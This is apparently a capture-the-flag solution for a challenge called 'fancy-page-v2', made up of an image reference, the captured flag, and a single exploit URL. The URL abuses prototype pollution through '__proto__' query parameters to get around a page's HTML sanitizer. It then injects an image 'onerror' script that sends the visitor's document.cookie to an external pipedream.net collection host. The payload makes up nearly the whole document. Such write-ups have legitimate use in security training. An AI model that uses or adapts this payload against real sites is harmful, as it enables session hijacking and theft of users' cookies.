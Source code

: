 # fancy-page-v2

flag{prototype_pollution_kills_thousands_of_websites_each_year}

```
http://fancier-page.hsctf.com/display.html?__proto__[img][0]=onerror&__proto__[img][1]=src&content=%3Cimg%20src%3Da%20onerror%3D%22a%3Ddocument.createElement(%27img%27);a.src%3D%27https://en69npu91xt9m.x.pipedream.net/%27%2Bdocument.cookie;document.body.append(a)%22%3E
```
